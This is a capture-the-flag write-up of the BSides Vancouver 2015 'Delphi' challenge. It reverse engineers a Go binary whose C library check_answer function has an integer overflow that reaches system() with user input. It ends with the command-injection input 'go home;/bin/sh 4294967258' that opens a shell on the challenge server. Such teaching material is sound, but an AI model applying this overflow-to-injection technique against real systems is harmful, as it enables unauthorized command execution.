 ```yaml
---
layout: post
title: "BSides Vancouver 2015 Delphi"
date: 2015-03-18 19:19:44 -0400
author: [barrebas,swappage]
comments: true
categories: [bsides vancouver]
---
```


### Solved by barrebas, Swappage

This 200 points challenge revolved around a binary written in *go*, for me and Bas this was our first attempt to exploit a Go binary, and was a resulted being a lot of fun :)

Binaries written in this language are generally safe from commonly exploited
vulnerabilities like buffer overflows, but in this case, the binary, was dynamically
linking an external library, which immediately pulled our attention.

    #file delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
    delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=0x936b88708739382f1d376e89a4b82a4248d19b08, not stripped

    # ldd delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
        linux-vdso.so.1 =>  (0x00007fff24e24000)
        libtwenty.so => /usr/local/lib/libtwenty.so (0x00007fb0ddd7c000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fb0ddb60000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb0dd7d4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fb0ddf9a000)

The program, upon execution would present us a simple prompt accepting input as follows

    # ./delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
    Welcome!

    Are you ready to play 20 questions? No? Perfect!
    I'm thinking of something big, metal, and orange. Go!
    >

 and reply with a random output from a set of predefined strings if the input wasn't formatted as it would expect.

 By simply fuzzing around, we managed to figure out that by entering the string *go* as a reply would trigger the program to reply as follows

     > go
    Sneaky, sneaky. Go where? How fast?
    >

which suggested that it was expecting a set of three arguments.
By luck, and later on confirming in the debugger, we noticed that sending a string like

    >go home <something>

would cause the program to reach the program branch where the *check_answer()* function is called, and where the actual vulnerability resides.

But let's take a step back: in the function *main.doTheMagic()* (what a cool name, it really sounded like something nasty was happening here :) ) righe before the call to *check_answer()* the third argument is converted to an integer via a call to *strconv.Atoi()*

```
0x401da6 <main.doTheMagic+374>: call   0x44d0b0 <strconv.Atoi>
0x401dab <main.doTheMagic+379>: mov    rbx,QWORD PTR [rsp+0x10]
0x401db0 <main.doTheMagic+384>: mov    ebx,ebx
0x401db2 <main.doTheMagic+386>: mov    DWORD PTR [rsp],ebx
0x401db5 <main.doTheMagic+389>: mov    rbx,QWORD PTR [rsp+0x40]
0x401dba <main.doTheMagic+394>: mov    QWORD PTR [rsp+0x8],rbx
0x401dbf <main.doTheMagic+399>: call   0x402230 <main._Cfunc_check_answer>
```
which suggested that the third argument should be a number, and that something nasty was going to happen from there soon in the unsafe function from the external C library.

*libtwenty.so*, as said earlier, is the library that contains the *check_answer()* function, and here is how it looks, both in block diagram and disassembled code.

{% img center /images/2015/bsides_vancouver/delphi/check_answer_diagram.png %}

```
Dump of assembler code for function check_answer:
   0x00007ffff7bdb758 <+0>: push   rbp
   0x00007ffff7bdb759 <+1>: mov    rbp,rsp
   0x00007ffff7bdb75c <+4>: sub    rsp,0xa0
   0x00007ffff7bdb763 <+11>:    mov    DWORD PTR [rbp-0x94],edi
   0x00007ffff7bdb769 <+17>:    mov    QWORD PTR [rbp-0xa0],rsi
   0x00007ffff7bdb770 <+24>:    mov    WORD PTR [rbp-0x2],0x2a
   0x00007ffff7bdb776 <+30>:    lea    rax,[rbp-0x90]
   0x00007ffff7bdb77d <+37>:    mov    DWORD PTR [rax],0x6f686365
   0x00007ffff7bdb783 <+43>:    mov    WORD PTR [rax+0x4],0x20
   0x00007ffff7bdb789 <+49>:    mov    eax,DWORD PTR [rbp-0x94]
   0x00007ffff7bdb78f <+55>:    add    WORD PTR [rbp-0x2],ax
   0x00007ffff7bdb793 <+59>:    movzx  eax,WORD PTR [rbp-0x2]
   0x00007ffff7bdb797 <+63>:    cmp    eax,0x4
   0x00007ffff7bdb79a <+66>:    ja     0x7ffff7bdb7ed <check_answer+149>
   0x00007ffff7bdb79c <+68>:    mov    eax,eax
   0x00007ffff7bdb79e <+70>:    lea    rdx,[rax*4+0x0]
   0x00007ffff7bdb7a6 <+78>:    lea    rax,[rip+0xff]        # 0x7ffff7bdb8ac
   0x00007ffff7bdb7ad <+85>:    mov    eax,DWORD PTR [rdx+rax*1]
   0x00007ffff7bdb7b0 <+88>:    movsxd rdx,eax
   0x00007ffff7bdb7b3 <+91>:    lea    rax,[rip+0xf2]        # 0x7ffff7bdb8ac
   0x00007ffff7bdb7ba <+98>:    add    rax,rdx
   0x00007ffff7bdb7bd <+101>:   jmp    rax
   0x00007ffff7bdb7bf <+103>:   mov    rax,QWORD PTR [rbp-0xa0]
   0x00007ffff7bdb7c6 <+110>:   lea    rdx,[rbp-0x90]
   0x00007ffff7bdb7cd <+117>:   add    rdx,0x5
   0x00007ffff7bdb7d1 <+121>:   mov    rsi,rax
   0x00007ffff7bdb7d4 <+124>:   mov    rdi,rdx
   0x00007ffff7bdb7d7 <+127>:   call   0x7ffff7bdb650 <strcat@plt>
   0x00007ffff7bdb7dc <+132>:   lea    rax,[rbp-0x90]
   0x00007ffff7bdb7e3 <+139>:   mov    rdi,rax
   0x00007ffff7bdb7e6 <+142>:   call   0x7ffff7bdb630 <system@plt>
   0x00007ffff7bdb7eb <+147>:   jmp    0x7ffff7bdb808 <check_answer+176>
   0x00007ffff7bdb7ed <+149>:   lea    rdi,[rip+0x24]        # 0x7ffff7bdb818
   0x00007ffff7bdb7f4 <+156>:   call   0x7ffff7bdb620 <puts@plt>
   0x00007ffff7bdb7f9 <+161>:   lea    rdi,[rip+0x58]        # 0x7ffff7bdb858
   0x00007ffff7bdb800 <+168>:   call   0x7ffff7bdb620 <puts@plt>
   0x00007ffff7bdb805 <+173>:   jmp    0x7ffff7bdb808 <check_answer+176>
   0x00007ffff7bdb807 <+175>:   nop
   0x00007ffff7bdb808 <+176>:   leave  
   0x00007ffff7bdb809 <+177>:   ret
End of assembler dump.
```
There are two extremely interesting things here:

 - at 0x00007ffff7bdb79a, if ras = 4, then we reach a branch of code that ends with a jmp rax at 0x00007ffff7bdb7bd
 - by controlling the value in rax when the jump is taken, we can reach another extremely juicy branch of code that executes a call to *strcat()* as well as *system()*

 This means that if we can force the application to not take the jump at 0x00007ffff7bdb79a, we can execute arbitrary code and hopefully spawn a shell.

But where is the vulnerability?

At 0x00007ffff7bdb763 our arguments are moved on the stack, with also a 0x2a moved at [rbp -0x2]

```
0x00007ffff7bdb763 <+11>:   mov    DWORD PTR [rbp-0x94],edi
0x00007ffff7bdb769 <+17>:   mov    QWORD PTR [rbp-0xa0],rsi
0x00007ffff7bdb770 <+24>:   mov    WORD PTR [rbp-0x2],0x2a
```
and then this calculation is done

```
0x00007ffff7bdb789 <+49>:   mov    eax,DWORD PTR [rbp-0x94]
0x00007ffff7bdb78f <+55>:   add    WORD PTR [rbp-0x2],ax
0x00007ffff7bdb793 <+59>:   movzx  eax,WORD PTR [rbp-0x2]
```

So basically what happens is that

 - our third argument is cast to an int (from earlier) and moved to the stack
 - later on that value is moved into eax
 - 0x2a is then added to eax

This results in our ability to control RAX, and since our third argument is cast to an int, in the previous function, we can trigger an integer overflow, force the value to start counting from 0, and have 0 <= RAX <= 4.

To do that we pick the highest possible int value and calculate the following

    0xffffffff - 0x2a + 0x4 = 0xffffffd9 = 4294967257

and as expected the jump is not taken, leading us to the branch of code that will result in arbitrary code execution via system().

{% img center /images/2015/bsides_vancouver/delphi/gdb.png %}

By forcing the value of RAX to be 4, when the following instruction is executed

    0x00007ffff7bdb7bd <+101>:  jmp    rax

 rax is equal to 0x7ffff7bdb7bf
 which is the area of code where *strcat()* and then *system()* are called.

 on *system()* execution, RAX points to "echo home"

    RAX: 0x7fffffffe220 ("echo home")

and since home was the second argument we submitted to the program in the beginning, we can quite confidentially assume that we can lavarage this to command ijection.

We decided to try this directly on the remote server in the perfect "i feel lucky" style

    # nc delphi.termsec.net 5000
    Welcome!

    Are you ready to play 20 questions? No? Perfect!
    I'm thinking of something big, metal, and orange. Go!
    > go home;/bin/sh 4294967258
    home
    cat flag.txt
    flag{I_l3t_my_tape_r0ck_til_my_t4pe_popped}

and appearently it worked :)

